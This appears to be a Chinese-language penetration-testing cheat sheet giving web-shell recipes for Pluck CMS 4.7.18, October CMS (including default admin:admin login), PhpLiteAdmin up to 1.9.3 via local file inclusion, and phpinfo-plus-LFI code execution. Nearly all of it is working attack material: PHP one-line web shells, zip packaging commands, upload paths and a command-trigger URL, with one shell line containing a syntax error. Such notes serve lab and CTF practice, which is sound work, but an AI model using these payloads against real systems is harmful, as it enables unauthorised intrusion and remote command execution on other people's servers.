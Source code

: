 ### Pluck CMS v.4.7.18 - `经过验证的` 任意文件上传
- cmd.php
```php
<?php system($_REQUEST('cmd')); ?>
```

```bash
mkdir shell
mv cmd.php shell
zip -r shell.zip shell/
```

options > manage modules > Install a module...
上传刚刚压缩的 shell.zip 后
在 `http://IP/data/modules/` 中应该可以找到 shell 文件夹，里面就是我们之前创建的文件


### October CMS
**默认登录 URL**
```
http://IP/backend/backend/auth/signin
```

**默认登录密码**
```
admin:admin
```


**任意文件上传 EXP**
https://0xdf.gitlab.io/2019/03/26/htb-october.html
- cmd.php5
```php
<?php system($_REQUEST["cmd"]); ?>
```

```
http://IP/storage/app/media/cmd.php5?cmd=id
```



### PhpLiteAdmin <= `1.9.3` LFI Command Execute
必须要经过身份验证 + 存在本地文件包含：
- 创建一个 qwe.php
- 创建一个 shell 表，字段为1, 内容为 TEXT, `<?php system($_REQUEST["cmd"]); ?>` ; 

- 替代方法为创建一个 qwe.php 
- 创建一个 qwe ，字段为1，Field 段填写 `<?php system($_REQUEST["cmd"]); ?>` ; 类型为 TEXT, 也可以达到命令执行的效果


### phpinfo : `file_uploads = on` + LFI = RCE
https://0xdf.gitlab.io/2020/04/22/htb-nineveh.html#shell-as-www-data-via-phpinfophp